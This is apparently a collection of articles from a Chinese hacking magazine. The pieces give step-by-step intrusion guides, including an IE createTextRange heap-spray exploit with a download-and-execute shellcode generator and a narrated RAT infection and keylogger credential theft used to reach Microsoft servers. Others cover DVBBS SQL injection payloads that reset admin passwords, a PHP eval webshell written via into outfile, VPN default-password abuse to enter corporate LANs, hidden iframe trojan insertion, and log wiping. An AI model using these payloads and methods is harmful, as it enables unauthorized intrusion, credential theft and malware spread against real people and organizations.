- Microsoft Internet Explorer 地址栏欺骗漏洞
- Microsoft Internet Explorer 双字节字符内存破坏漏洞
- Microsoft Internet Explorer HTML标签内存破坏漏洞
- Microsoft Internet Explorer 逻辑内存错误漏洞
- Microsoft Internet Explorer 请求/oleClientsSite 数据区溢出漏洞
- Microsoft Internet Explorer 带堆栈参数信息泄露漏洞
- Microsoft Internet Explorer COM对象实例化代码执行漏洞
- Microsoft Internet Explorer 无效HTML解析代码执行漏洞
- Microsoft Internet Explorer CreateTextRange 远程代码执行漏洞
- Microsoft Internet Explorer 脚本操作处理器溢出漏洞

```html
</script>
a = r.document.getElementById('c');
a = r.createTextRange();
</script>
```

就这么多，保存成网页，拿到虚拟机下运行，错误就跑出来了，如图1所示。


至于怎么找溢出……这个看起来很复杂。幸好绿盟里给出了溢出程序原代码和一个直接溢出的网页代码。由于本人C语言不过关，所以直接去看网页代码了。

> Microsoft Internet Explorer 是微软发布的非常流行的WEB浏览器。

Internet Explorer 的 createTextRange() 函数实现上存在漏洞，远程攻击者可能利用此漏洞在客户端上执行任意指令。Internet Explorer 使用 createTextRange() 时在某些环境下可能导致无效的表指针引用；这样在试图调用引用的32位地址时就会出现错误……

不过彻彻底底地分析一个漏洞再写出ShellCode……这对我这个初学的菜鸟来说还是十分困难的。

还是看看别的吧，于是打开Google一搜，令人满意的结果出来了：CreateTextRange漏洞木马生成器。不过也不知道是网络不好还是什么原因，点了好多站点都是“该页无法显示”。

去绿盟看看漏洞描述。

相关的测试方法很多，不过既然是研究，我就给大家把最简单的方法找出来。

```html
<input type='checkbox' id='c'>
<script>
...
</script>
```

```html
<input type='Checkbox' id='blah'>
<SCRIPT language='javascript'>
shellcode = unescape('%u9090%u9090...');
...
bigblock = unescape('%u9090%u9090');
slackspace = 20 + shellcode.length;
while (bigblock.length < slackspace) bigblock += bigblock;
...
while(block.length + slackspace < 0x40000) ...
</SCRIPT>
```

## 黑防工坊 / EXPLOIT ATTACK&DEFENCE

```javascript
block = block + block + fillblock;
memory = new Array();
for (i = 0; i < 2020; i++) {
  memory[i] = block + shellcode;
}
var t = document.getElementById('blah').createTextRange();
```

代码很简单，下面我们就做一个传说中的网页木马生成器。因为是在网吧，我选择了VB6精简版来制作木马。至于ShellCode部分，我在网上随便找了一个down&exe的，经过Escape编码格式如下。

```text
%u9090%u9090%u9090...（大量ShellCode转义编码）
```

只要在这段代码后面连接下载的路径就可以了，代码如下：

```vb
ssl = ""
ss = Text1
If Len(ss) Mod 2 <> 0 Then ss = ss & Chr(0)
For i = 1 To Len(ss) - 1 Step 2
  ssl = ssl & "%u" & Format(Hex(Asc(Mid(ss, i + 1, 1))), "00") & Format(Hex(Asc(Mid(ss, i, 1))), "00")
Next
```

因为Push是逆序，所以顺序为i+1，i。好了，把此ShellCode替换掉绿盟里的ShellCode，代码见光盘。接着把生成的网马上传到我的服务器上，为了方便大家看效果，我用VB做了个空程序上传，如图2所示。


打开IE运行……竟然死机了？太夸张了吧？难道哪里做得不正确？重启之后去网上搜索了一下，发现这样一段话：

> 此漏洞利用价值不大，非常占用内存，512M的内存一般要4分钟左右才会执行溢出代码。

无语了，网吧机器才256M，于是本人驱车到朋友家。朋友那里P4 830，2GB内存。结果他电脑打上了补丁。于是我在他虚拟机上实验了一下（上次测试木马装的），内存使用量1.07GB……如图3所示。


之后等了N久，可能是虚拟机的原因吧，大概2分钟，我做测试的空白程序终于运行了。OK，一切正常。不过看来想要利用该漏洞，肉鸡一定得配置非常高才行。

脚本小子：我们大家一直在使用微软的程序，尽管或多或少会出一些安全性问题，但从来没有人怀疑过微软的权威地位。不过任何的网络都不可能坚不可摧，“安全”只是在某个时期相对而言的，这次微软也被“玩”了一回。

- 适合读者：网络爱好者、入侵爱好者
- 前置知识：木马使用基础

## 邂逅 美国MicroSoft内部网络


第一次给黑防投稿，心情挺激动的。一连几次看到我朋友下雨天的稿件发表，有点冲动，现在正好来了个机会，当然不能放过啦。

看最近在各大网站上闲逛，发现微软又公布最新漏洞了。网上还给出了EXP，仔细看了一下对该漏洞的描述。

### 钩子情节：巧遇微软

前段时间对编程特别感兴趣，又学习C编又学C++、ASP的。看到网上提供的源程序，总是喜欢编译出来看看。

> 真正的createTextRange漏洞的利用，其代码执行中会分配大量内存，总体来说可以远程代码执行，自然是严重等级的漏洞。但它利用起来代价很大，512M内存的机器上跑的话，也需要1~2分钟才会运行ShellCode，所以今后它的泛滥程度会远低于WMF/HHCTRL/MHTML等漏洞。

看来该漏洞利用的价值不是很大，512MB的内存都要执行这么久。那256MB不是要让IE死掉了？管他的，要抓就抓好鸡。马上把代码COPY下来然后C++编译，在DOS下执行，生成一个HTML网页，想必这就是网马了。怀着迫切的心情将其用JS代码挂到了一个国外的站点，没多久就有鸡上线了。后来发现上线的果然都是512MB以上的强鸡。

过了几天突然发现鸽子上多了一台MicroSoft的计算机，如图1所示。


图1

把这个消息告诉了ayl3y（还得多谢他给我提供了一个快速的3389小鸡），为了确认它是否为微软内部主机，ayl3y和我一起监视了它的屏幕，如图2所示。


图2

全是英文，幸好我英语很早就过了级，基本看得懂。地址栏的URL我觉得很可疑，于是手工输入此地址到浏览器，结果出现“无法显示”，看来不允许外来人员浏览，感觉那地址是微软内部的。再次借用鸽子的TELNET命令ipconfig查看，得到如图3所示。


图3

DNS都是微软的，看来今天真的是抓到好东西了。第二天抓了个图发给好友HACK520，他给了我一些提示：拿服务器密码，只要用鸽子键盘记录就可以了。那时我心啊，是呼呼地跳动个不停。如果能进微软服务器观赏一下，那简直太对得起我这一年多的HACK学习了。兴奋一下可以，不过冷静下来才能做大事。我想了一下，如果对方真的是内部人员，肯定要登录终端作业，那么搞到他的终端密码应该没什么问题。于是有了下面的第二步。

### 信息收集，获得密码

第三天再次登录鸽子，查看键盘记录，有40多KB的内容。此内部人员的一切操作，鸽子都给我们记录了下来。

看来他去的地方还真不少，GMAIL、招商银行都随便登。不过我并不关心这些。40多KB的内容，花了我很长时间来阅读，皇天不负有心人，终于在里面发现了来自Mstsc进程和Vmrc.exe进程的重要信息，如图4、图5所示。


图4


图5

从以上两图可以看出，在进程Mstsc上，我们得到了终端密码（内部人员就是不一样，密码都16位）；在进程Vmrc中得到了用户名和密码，真想不到这人还在管一个大学的服务器。到现在为止，我们只得到了她的密码，对方登录的终端IP或域名我们不知道，对方的用户名我们也不知道。HACK520再次给出提示：等管理员不在时DOS下Mstsc查看。不过这样做好像不太安全，还是继续监视屏幕，发现重要终端，如图6所示。


图6

现在我们基本可以得出结论：对方至少控制两个3389，一个远程Vmrc，共三台服务器。监视获得了用户名，如图7所示。用户名是知道了，IP和域名呢？现在都差不多是晚上了，我去看看键盘记录。这回终于把域名给弄出来了，如图8所示。心情激动跳着，我小心翼翼地将域名Copy到Mstsc中，输入用户名和密码，如图9所示。好多域：非洲、欧洲、东方、南美等十多个域，看来微软的服务器就是好，同时这么多人登录都没有问题。再次查找键盘记录，我选择了FAREAST，肯定是它。


图7


图8


图9

回车后，居然提示密码不对。不过我肯定密码没有问题，关键可能出在用户名上了，键盘记录就是好，我从它那里找到了这些信息，如图10所示。


图10

到此信息收集完毕，连接终端域名：clarif*******.partners.extranet.MicroSoft.com，用户名v-**zhan，密码LCG*****./zxcvb，域fareast。此时再次登录3389，终于成功，如图11所示。


图11

心中一阵狂喜，但好像高兴得太早了，微软安全性肯定不会这么差。下面的图证明了我的说法，如图12所示。


图12

为了更清楚让大家看见，我把记事本中的内容复制了下来：

> For Clarify access by offshore partners, please direct your browser to the Extranet Portal at: https://www.partners.extranet.microsoft.com ...
>
> Direct logon to the terminal servers is unsupported. Please contact the Help Desk if you have questions or issues.

大概内容如下：要求有企业间网络认证、本机安装ISA防火墙，还需要是MicroSoft.com的可信任站点。开始我以为挺简单，到https://www.partners.extranet.MicroSoft.com上看了看，结果又要用户、又要密码的，此路不通。

在MSN上我加了她，想不到对方是个女的，还挺年轻。真是年青有为啊，都在MicroSoft工作了。谈话中我得知对方是IT工作者，搞开发的。虽然说是个高手，但对木马警觉性不高，不然我鸽子早就飞不起来了。我还真想不到我加她，她非要问我怎么知道她E-mail的。对于MM嘛，哄哄她就是了。聊了这么久，啥信息都没有得到，还是按套路，进入第三步。

## 利用密码 横向渗透

前面我们已经知道，管理员至少能进两个终端，不妨扫描一下此网段，看看有没有奇迹发生。于是我在CMD下Ping了一下其域名“clari*******.partners.extranet.MicroSoft.com”得到IP：131.107.***.246。为了显示真实性，我还是把图贴上来吧，如图13所示。


图13

下面就是拿起XSCAN扫描了，指定IP范围我们填131.107.0.0-131.107.255.255，端口相关设置内填上3389。字典相关设置里把用户名v-**zhan和密码LCG*****./zxcvb填上，开始扫描。最后扫描到五台主机都用的此用户名和口令，拿出Mstsc连其IP，成功进入如图14所示。


图14

微软的终端服务器不是一般的多，编号都到102了。抓到图给大家看一下，如图15所示。刚才还特别注意了一下，竟然是x64的2003企业版。另有三台我这里就不抓图了，不然太浪费黑防的版面。登录是成功了，但是出现了同样的情况要求认证。最后再次查看了键盘记录，发现对方输入了二次密码。后来想一下，找到了两条思路：

- 1. 利用LCX作端口映射，给它种上Radmin，等管理…

图15

- 2. 利用 Socks5 Transmit Tool，开个反弹 SOCKS 代理，进入内网。

由于管理员一般都是 11 点以后才下机，如果利用第一种思路，那我只能去网吧了……如果因为晚上夜不归宿来个警告处分，那可就亏大了。

最后不得不采取第二种思路，马上上传 HACK520 给我的 HT（Socks5 Transmit Tool）……发现管理员打开了网络监视程序，直接分析 MAC 地址，还好我眼疾手快，马上关掉鸽子，清理现场闪人。

这段时间事情多，专业课又难，两天没有去看鸽子。结果后悔啊，Microsoft 的肉鸡飞了……并且有了那台主机后，还可以进一步进行渗透。

### 结束语

这可能是一种缘分，也算是一种巧合，让我有机会进行一次 Microsoft 服务器的渗透之旅。尽管没有进入终端有些遗憾，但不管怎么说也不虚此行。

- 适合读者：网络爱好者；脚本爱好者

## 中国黑客联盟的论坛漏洞

一天在中国黑客联盟转悠的时候，无意发现他们的论坛采用的是 DVBBS 7.1。我于是顺便申请了个账号进去看看，但是在登录论坛时不小心把密码给忘了……发现地址栏的链接很像传说中跨站漏洞的模式。

首先进入中国黑客联盟，我们登录的时候故意输入错误的密码、正确的验证码，如图1所示。

这时返回错误信息。我们注意地址栏的错误信息，如图2所示。

```html
Action= 后的数据换成：
<script>alert('hello')</script>
```

看到了吧，说明它有跨站漏洞。我们再把 `<script>alert('hello')</script>` 换成 `<script>alert(document.cookie)</script>`，如图4所示。看看，连 Cookie 都出来了，赶快联系管理员吧！

- 适合读者：入侵爱好者，脚本爱好者
- 前置知识：无

## 最新动网论坛漏洞

### 解析

今天突然在 QQ 上接到一个好朋友的消息，叫我看看一个虚拟主机的安全性如何，因为他想购买该主机的空间和域名。既然是好朋友，这个忙我当然要帮。输入朋友发来的 URL，进入其主站，如图1所示。

买用户名单限制输入框中，我们提交以下 SQL 语句（说明一下，我在论坛注册的 ID 是 ttfct，论坛的管理员是 Admin），如图2所示。

图1  
图2

```sql
coolidea||123',0);update/**/Dv_User/**/set/**/UserEmail=(select[Password]from/**/Dv_admin/**/where[Username]='admin')/**/where[UserName]='ttfct';--
```

此语句的意思是把管理员的 MD5 密码更新到用户名为 ttfct 的 UserEmail 中，这样做的目的是方便下次恢复。我们现在记下它的 MD5。

```sql
coolidea||123',0);update/**/Dv_User/**/set/**/UserPassword='469e80d32c0559f8'/**/where[UserName]='Admin';--
```

此句是将管理员的前台密码改为 admin888。现在我们退出，用 admin/admin888 登录，显示成功。第二次发帖提交：

```sql
coolidea||123',0);update/**/Dv_Admin/**/set/**/Password='469e80d32c0559f8'/**/where[UserName]='Admin';--
```

此 SQL 语句将 admin 的后台密码改为 admin888，提交后成功登录后台，如图3所示。

在此网站逛了一圈，没发现任何漏洞。不过，主站没有漏洞，并不代表此服务器上的其他站点也如此，于是拿起明小子的 Domain3.5 狂轰滥炸，发现此主机的几个站中：没有上传漏洞，没有默认的低级数据库泄漏，没有注入点，不能进行 Cookie 欺骗。唯一看到能利用的是一个动网 DVBBS7.1 SP1。想到动网 7.1 以前也在黑防杂志看到过有高手分析它的漏洞并说明了如何利用，但是总的来说，对那个漏洞的利用我个人对它的评价是：麻烦。相信不少人获得 WebShell 都是通过动网进行的，今天我们还是从它入手。我们利用近期发出的动网最新漏洞，两个语句就能搞定，下面我们看看漏洞的描述。

具体的漏洞分析我就不发出来了，下面直接看利用方法：

> 动网论坛（DVBBS 7.1.0 SP1）Savepost.asp 存在严重漏洞  
> 10-May-06  
> 发现：Bug.Center.Team  
> 严重程度：严重  
> 厂商名称：动网论坛（DVBBS）

漏洞分析：

因为程序在 savepost.asp 文件中变量过滤不严，导致数据库处理产生漏洞，可以取得论坛所有权限以及 WebShell。

利用方法：先注册一个 ID，找个版面发帖子。帖子内容下有个选择帖子类型。

选择“论坛交易币设置”。在金币数量、购买数量限制、VIP 用户浏览选项里我们都不作任何变动，在可购……

图3

至于 SQL 版本如何得到 WebShell，以前黑防杂志介绍过，本地建一个表单远程提交上去就行了。这样我们就得到了 WebShell；不过现在别 STOP，我们先看看这服务器到底安全不。用海洋 FSO 功能查看，不能跨站，不能找到 SA，不能替换服务，执行 CMD 和 Wscript 时得到如下图4的结果。

再次进行组件检测，却发现 WS 可用，如图5所示。这意味着我们肯定能执行 CMD 命令，于是上传 cmd.exe，执行调用得到成功提示。

用 netstat 查看发现主机装有 Serv-U，显示如图6所示。

使用 NET 命令查看，根本没有加上用户，看来 Serv-U 提权给封杀了。休息一会，继续寻找思路。先用 `query user` 查看结果，管理员不在线，下面我们来请出管理员。

开始在他的一个分页面上加上如下代码：

```asp
<%
  dim size
  size=1024*1024*50
  session(size)=space(size)
%>
```

两分钟后，网站提示错误。继续等待，20 分钟过后网站才恢复正常，估计服务器重启了。这时以最快速度把上面的代码去掉，进入 WebShell，`query user` 发现管理员在线，上传 MT，执行 `mt findpass`，得到了管理员密码，如图7所示。

下面还用我说么，直接登录 3389，如图8所示。

到此整个检测过程结束。收尾工作：删除论坛日志，改回论坛管理员密码，清除 IIS 日志、安全日志等。这里推荐使用 secwiper，它能将文件彻底清除，无法恢复。

总结：最近看到黑防杂志都是借助第三方软件来提权，比如勇哥儿那篇 G6FTP 提权。其实直接拿管理员密码也不错，起码来得快多了，不过前提是要拥有 CMD 执行权限。

## 脚本小子

一般情况下，用 PHP 语言编写的脚本程序，由于其配置文件中一个重要安全选项 Magic_quotes_gpc 的限制，并且在高版本中它默认是打开的，使得我们在注入上陷入了死路。但并不是说 PHP 注入是没有前途的，相反，PHP 比 ASP 的注入更能体现出技术的闪光点。

- 适合读者：网络爱好者，脚本爱好者
- 前置知识：无

## 从 Exblog 1.5 看 PHP 注入的闪光

在 PHP 中，因为我们提交的 `'` 以及元字符等特殊字符都会在前面加上一个转义字符 `\` 而变成 `\'` 这种普通的字符串形式，特别是当程序将提交的参数如 ID 等放入 `' '` 中间后再送入数据库查询的时候，PHP 下的 SQL 注入基本是不可能的了！再加上程序对一些变量的检查以及 MySQL 数据库的种种特性，SQL 注入在 PHP 脚本中真的是很让人悲观。

不过越有压力我们越要迎头直上。Exblog 超越博客是一款基于 PHP/MySQL 平台开发的网络博客日志程序。在上面的讨论中我们知道 PHP 默认还是很安全的，但是配置得再好，人为产生的漏洞也是无法避免的。在讨论具体的漏洞之前我们先看看程序 public.php 中的这段代码。

```php
function _getVariables()
{
    $this->input = array();
    $this->input['_GET'] = $_GET;
    $this->input = array_merge($this->input, $_GET);
    if (TRUE == get_magic_quotes_gpc()) {
        if (TRUE == count($_POST)) foreach ($_POST as $key => $value) $this->input['_POST'][$key] = stripslashes($value);
    } else $this->input['_POST'] = $_POST;
    $this->input = array_merge($this->input, $_POST);
}
```

大家知道变量有很多种传递方式，这里定义的 `_input['_GET']` 是从 `$_GET` 里取得的。下面的 `_input['_POST']` 会根据 `Magic_quotes_gpc` 是否开启进行处理，开启时会遍历 POST 变量并用 `stripslashes()` 处理后再传递给 `_input['_POST']`。

> `stripslashes()` 可以去掉变量里的转义符。若输入单引号等字符，在特定条件下可能导致数据库查询拼接产生 SQL 注入问题。

查找脚本程序里有数据库查询功能的地方，如果有 `_input['_POST']` 就可能有问题。在 Exblog 中可从 `index.php` 某段代码分析其处理逻辑并尝试构造利用。

```php
function handlerRegisterLink()
{
    if (TRUE == empty($this->input['_POST']['webTitle'])) ...
    elseif (20 < strlen($this->input['_POST']['webTitle'])) ...

    $query_string = "select * from {$this->dbop->prefix}links where homepage='{$this->input['_POST']['webTitle']}' or url='{$this->input['_POST']['webUrl']}'";
    echo $query_string;
    $this->dbop->query($query_string);

    if (FALSE == count($this->errors)) {
        $query_string = "insert into {$this->dbop->prefix}links (...) values (...)";
    }
}
```

```sql
... links (homepage, logoURL, url, description, visits, visible, linkOrder) values ('{$this->input[_POST]["webTitle"]}', '{$this->input[_POST]["webLogo"]}', '{$this->input[_POST]["webUrl"]}', '{$this->input[_POST]["webDescription"]}', 0, '0', 0)
```

查看代码可知，POST 输入仅做了有效性和长度处理，未做充分安全处理，因此可以通过构造数据影响后续 SQL 查询，实现注入。

```sql
select * from {$this->dbop->prefix}links where homepage='{$this->input[_POST]["webTitle"]}' or url='{$this->input[_POST]["webUrl"]}'
```

上面代码用于检查是否存在同名链接。可利用该逻辑构造语句测试 MySQL 版本，例如通过 `mid(version(),1,1)` 与条件组合，借此判断注入结果真假，并避免后续语句执行干扰。

图1

将构造内容放入 SQL 后，可根据返回结果判断版本与条件真假。进一步可用 `union select` 等方式做更深层查询，例如针对 `exblog_admin` 表逐位判断密码字符属性，说明为数字。经过一系列猜测我们可以完成对管理员密码的猜测。

> 要用后面的 logo 使 insert 语句生效，还可以用这个后台名的友情链接里的 SQL 测试 URL。

拿到管理员 MD5 加密密码后可以尝试破解，然后登录后台。在后台如何获得 WebShell 呢？我们可以在上传文件配置里添加 PHP 的上传文件类型，然后在发表 Blog 里添加一个附件就可以获得 WebShell 了！如图2所示。

但是使用这样的方法感觉很不爽，因为破解 MD5 非常麻烦。并且我们知道在 MySQL 中权限允许的话，使用 `into outfile` 而知道一个可写的 Web 路径，就可以直接利用 `into outfile` 功能写一个 WebShell。

首先看看站点的物理路径，直接访问 `/include/smarty/smarty_compiler.class.php`，得到了物理文件的路径，如图3所示。

然后我们判断数据库连接用户是否有 File 权限，可以利用上面的注入 URL：`http:///' or length(load_file('d:\usr\www\html\PHP\exblog1.5\exblog_v1.5.1\upload\index.PHP'))>0/*`。如果提示同名链接存在，就说明有 File 权限并且数据库与 Web 在同一台服务器上。

> 这里要注意 Windows 下路径的表达，用 `\\` 代替 `\`。

我们首先将后门写到数据库里，提交一个名为 loveshell，URL 为 `http://<? eval($_POST[shell])?>` 的链接。然后利用 `into outfile` 写出到 `...\upload\shell.PHP`，如图4所示。

提交后语句变成：`select * from exblog_links where homepage='Just Test' or url='http://' into outfile 'd:\usr\www\html\PHP\exblog1.5\exblog_v1.5.1\upload\shell.PHP'/*`，正好将前面提交的字段导出到文件里，得到 WebShell，如图5所示。

很多朋友可能遇到的情况更郁闷，猜测了好久终于得到了 MD5 密码但破解不出来，或者是数据库权限不够不能直接得到 WebShell。有没有更好的办法解决呢？答案是肯定的。我们看看它自定义的数据库查询函数。

```php
function query($query_string, $connect_id = 0)
{
    if (FALSE == is_resource($connect_id)) $connect_id = &$this->connect_id;
    $queriesString = explode(";", $query_string);
    if (!mysqli || !$this->mode) {
        if (TRUE == $this->support_charset) @mysql_query("set CHARACTER SET {$this->charset}", $connect_id);
    }
    foreach ($queriesString as $key => $query_str) {
        if (FALSE == empty($query_str)) $query_id = @mysql_query($query_str, $connect_id) or trigger_error(...);
    }
}
```

怪不得不能用数据库出错暴出路径，原来用了自定义的操作，并且用了 `@` 屏蔽错误信息。我们看到此操作函数是用 `;` 分隔传递的 `$query_string` 然后执行多个查询，通过它可间接实现 MySQL 多语句查询功能。

适合读者：入侵爱好者  
前置知识：无

## 利用硬件VPN渗透内网

文／图 黑暗骑士

本人无意中发现一种利用VPN入侵企业内部局域网的方法，在网上找了一下，还没有此类的文章，所以就拿出来与大家一起分享。

其实入侵的原理就是利用奥联APN的默认账号和密码，把本机通过奥联APN加入到对方局域网中去。专业一点来说就是自己做一个VPN。奥联APN是个什么东西呢？根据它的功能来看，应该可以把它归类为网关产品。它集成了VPN、防火墙，并且支持PPPoE拨号等多种上网方式，内置代理上网、内部DHCP/DNS服务等功能很强大。就因为它功能强大，所以一旦被入侵，对企业来说将会损失惨重。我们这里用到的只是它的VPN功能。

为什么文章的标题是入侵深圳的企业网络呢？因为深圳的企业用该产品的比较多，其他地方的用户就比较少。既然入侵原理大家都知道了，接下来我就演示一下入侵的具体过程吧。

首先我们要准备一些工具：WebDAVSCAN 1.0、奥联APN客户端软件。WebDAVSCAN主要是用来扫描存在WebDAV漏洞的；不过这里我们用它来扫描互联网上的奥联APN设备，而奥联APN客户端软件是用来连接奥联APN设备，与对方局域网建立一条VPN的。

工具都准备好了，我们就开始吧。首先打开WebDAVSCAN，填上一段IP扫描，如图1所示。

扫描结果出来了，我们如何判断呢？大家看看HTTP Banner这一栏，只要看到“APN HTTPD”就可以确定它是奥联APN的产品了，至于V1.3那是它的版本。

接下来我们打开浏览器，在地址栏输入你扫描到的IP地址，如图2所示。

点击“中文”，出现输入用户名和密码提示框，我们输入用户名：root，密码：gw1admin。这就是它默认的初始密码。一般的公司把该设备买回去后都不喜欢改密码，这也是此漏洞存在的根本原因。点确定我们就进入了Web配置页面，如图3所示。

我们现在要做的就是利用此页面配置一条VPN，其他的不管，直接点“虚拟专网”，进入后如图4所示。

再点“APN移动用户”，进入后如图5所示。在图5的配置界面，单选按钮选择“服务器管理”，再点提交，如图6所示。在图6所示的界面中选择启动WinAPN服务，再次提交，APN服务就启动了。APN服务启动后，状态描述一栏的服务器状态会显示“开启”，如图7所示。

在图7中，我们再选“用户管理”，点提交，出现如图8所示的界面。点“添加”后，如图9所示。用户名、口令随便填，IP就填172.31.252.*（*号代表2-254）。

客户端方面，我们安装好客户端后，点击“开始→程序→INAPN→WINAPN PSK版”，打开客户端，如图10所示。点“设置→新建”，如图11所示。

我们再回头看看图4，图11所要填的信息基本上图4都有：隧道名称可以随便填，Vdomain对应图4的当前APN组域，Vhost对应图4的节点名；用户名和密码就是图9填入的；填完后点确定。再点“系统”，这里要求填主识别号，该主识别号与图4的主识别号要一致。全部填写完毕后就点连接。当出现图12的提示时，说明连接成功。

运行 `ipconfig /all` 命令看看，是不是多了个本地连接，而且IP就是你开始填的172.31.252.*。这说明你的计算机已经成为对方局域网中的一台主机了。至于再如何入侵其他主机，那方法可就多了。对于一些基础好点的小鸟，这篇文章写到这应该算结束了。

既然要入侵局域网，我们就要扫描，看看有什么漏洞能让我们顺利入侵。我喜欢用流光，这的确是个不错的扫描工具。扫描的时候需要注意，我们扫描所用的IP不能是172.31.252.*，因为这是外部主机拨号到奥联APN时，APN设备给它分配的虚拟IP。此页面显示的局域网IP才是奥联APN设备在局域网中的真实IP。这样，我们就可以知道局域网中主机的真实IP，也就知道奥联APN设备的真实网段了。

打个比方：比如说你在网络接口页面看到的奥联APN真实IP是192.168.0.1，那么局域网中主机的真实IP地址就很有可能是192.168.0.*（*代表2-254中的任意数）。根据网络接口页面提供的IP段，我用流光扫描，发现有一台IP为192.168.206.102的主机管理员账号为空。这下一想怎么玩就由你了。由于知道它是一台Windows 2000的主机，所以我就用DameWare进行后续操作，这是一个很不错的远程控制软件。不过它只能控制Windows 2000的主机，对XP无效。

说到底，奥联APN本身并没有什么特大漏洞，只是一般的公司把产品买回去后并没有更改默认设置，所以才造成对企业内部网络的危害。希望在使用奥联APN产品的、还没更改密码的用户赶紧换密码；同时也希望入侵者在入侵后不要做坏事，最好能通知对方修补漏洞。

---

**脚本小子：** 动网论坛的影响力无庸置疑，它在网络中的覆盖率也是最高的，由此引发入侵木马、挂马、刷广告等系列黑客技术。最近VIP会员们都在讨论如何才能在动网论坛上更好地挂马，并将成果整理成此文，希望由此引玉。

适合读者：脚本入侵爱好者  
前置知识：动网论坛设置

## VIP会员学习成果展：你所不知道的动网挂马方法

文／图：[黑防VIP]lucky_feng

最近在调试一个论坛，使用的是dvbbs 7.1.0 sp1。原本想修改掉一些没用的广告等默认设置，比如一搜、阿里巴巴等（这些修改一般都是在后台可以修改的），在修改的过程中发现有些东西可以利用一下，于是便有了此文。注意，以下所有操作都是在论坛后台的管理条件下进行的。

### 广告设置与挂马

进入到“常规设置→广告管理”。我们可以看到首页尾部广告代码，默认的首页尾部广告代码是这样的：

```html
<iframe marginwidth="0" marginheight="0" src="http://server.dvbbs.net/dvbbs/dvbos_soft_end.html" frameborder="0" width="468" scrolling="no" height="60"></iframe>
```

有插马经验的人一看就知道该怎么修改了，把地址换成你需要的地址就行了。其中width最好设成0，这样别人就看不到效果了。我插入的是新浪首页，因为width=0，所以看不到新浪的页面，但是由于新浪会跳出广告，所以说明新浪页面正常插入了，如图1所示。

既然首页尾部广告可以修改，那么顶部广告和其他版面的地方当然也是可以的。

### 风格模板设置与挂马

动网后台提供了强大的功能，可以让管理员自由修改论坛的风格模板，修改这些是通过修改代码来实现的，当然也就留给我们很多机会。

依次进入“后台管理→外观设置→风格界面模板”。我们随便挑选一个。这里以“当前模板主模块(Main_Style)”为例，点击“界面风格”进入；还是随便挑选一个，我选择 Dvbbs.mainhtml(8)，因为这里就是设置网站首页最下边阿里巴巴广告的地方，方便演示。

找到代码：

```html
<div style="float:left">
{$alipaynso}
</div>
```

在下边插入新浪的网站：

```html
<iframe marginwidth="0" marginheight="0" src="http://www.sina.com.cn" frameborder="0" width="468" scrolling="no" height="60"></iframe>
```

保存以后重新打开论坛首页，效果如图2所示。

### 简单小结

- 1. 在论坛正式运营以后，一般管理员都不会去修改风格模板，所以我们只需要让页面看起来和原来一样就可以了。比如在广告设置中，我们可以保留管理员原来放的广告，只要添加我们自己的代码就OK了。模板管理中，我们只要在任意一个模板中间插入代码就能完成挂马的操作，并且管理员很难发现。  
- 2. 不单单在动网中可以这样跨站，其他的系统中，如弹出广告、公告或Flash都是可以利用的，有些整站系统还提供了后台网页模板定制功能，我们同样可以利用起来。需要注意的是，不要让管理员发现和原来的页面不同，比如错误提示、弹出新窗口或者病毒提示。  
- 3. 修补问题。与其防止如何不让别人往后台跨站，不如防止不让别人进入后台。毕竟修改的数据都要写入到动网的数据库中，而数据库肯定是要开放修改权限的。过滤的方法不太可行，毕竟插入的代码在其他相似系统的默认设置中也要用到。所以我们只能做好整体的系统安全，才能保护后台的安全。  
- 4. 可能有人会说，进入后台就没有必要这样去跨站了。说得没错，但是进入后台不能得到WebShell的情况还是很多的，而且类似的方法在其他地方也有可能用到。  

---

**蝴蝶：** 随着当今技术的飞速发展，电子信息化产品早已经遍布我们身边每一角落。当然校园中此类产品又是屡见不鲜的。本文所介绍的就是一个非常容易见到的东西：校园身份条形码。

适合读者：黑客迷  
前置知识：无

## 条形码也玩HACK

文／图 马林

校园现代化建设的脚步从未停止过，同样校园黑客的队伍也一天大过一天。（两者有联系吗？）无论怎样，黑客对新技术的兴趣是无人能比的，对于其中的Bug更是以一种狂热的态度去面对。我们学校这学期建立了一个名为“二卡通”的系统，细节内容不在这里讨论，我们只关心它的缺陷。

建立“二卡通”系统后，全校每个学生都拥有一个身份ID，此ID被编码转化为条形码，印在校园卡上。可不要小看这条形码，每当我们出入图书馆、机房、自习室等场所时都要“刷卡”，就跟在超市结账一样。只要用专用的条形码识别仪器扫描一下，我们的个人信息就显示出来了，并且被记录下来。

让我们分析一下系统，以出入机房为例。进入机房要刷卡，因为卡上有表明身份的条形码，而条形码中有我们的身份信息。如果我们能计算出条形码所表示的身份ID并且找出规律，那么我们就可以制作一个自己的身份条形码。现在所有的问题都集中到了一点：条形码。

条形码是由黑色条符和白色条符根据特定规律组成的。这里所说的黑色条符是印制的，而两个黑色条符间的空白即代表白色条符。黑白条符的不同排列方法构成不同图案，从而代表不同的字母、数字和其他人们熟悉的各种符号。条形码编码规则各不相同，主要区别体现在：黑色和白色条符的数量、相对位置、宽度。一个完整的条形码信息由多个条形代码组成，由于整条信息中的黑白条符交替整齐地排列成栅栏形状，使得人们不易通过眼睛区别出其中单一字符的条形代码，所以需要电子技术手段来进行读取。如图1所示，形象地表现出了条形码的本质（一组二进制序列）。

> 条形码是一种机器语言。事实上，条形码是唯一可以直接重复产生“0”“1”比特流的可印刷机器语言，而“0”“1”比特流是所有数字计算机的内部逻辑基础。迄今为止，虽然已经有许多种制式的条形码问世，但它们仅仅是在编码数字的形式上有所不同。条形码信息是利用印制的条符宽度和条符间的间隔宽度来编码的。

条形码技术发展至今已有十几年的历史，在这期间陆续推出了十几种条形码。本文在此列举两种常用的。

### UPC码

Universal Product Code（UPC）是美国通用食品代码委员会于1973年制定的一个全国统一的商品编码标准。它广泛用于食品、百货、日用商品的零售、记账、自动计价售货、商品订货、发货统计等领域。编码规则是每一信息的代码位长是12位。

### Code 128码

Code 128码是一种连续型变位常数字符型条形码。Code 128码有三个字符集，覆盖了全部128个ASCII码。区别三个字符集是通过开始码与结束数码序列来决定的。我们学校使用的条形码就是Code 128 B字符集。编码规则是每个字符用11位表示，三条黑色条符、三条白色条符，起始码如图2所示。

| 编码类别 | 编码 |
|---|---|
| CODE A | 11010000100 |
| CODE B | 11010010000 |
| CODE C | 11010011100 |

图2

| 字符 | 编码 | 字符 | 编码 |
|---|---|---|---|
| 1 | 10011100110 | 6 | 11001110100 |
| 2 | 11001110010 | 7 | 11101101110 |
| 3 | 11001011100 | 8 | 11101001100 |
| 4 | 11001001110 | 9 | 11100101100 |
| 5 | 11011100100 | 0 | 10011101100 |

图3

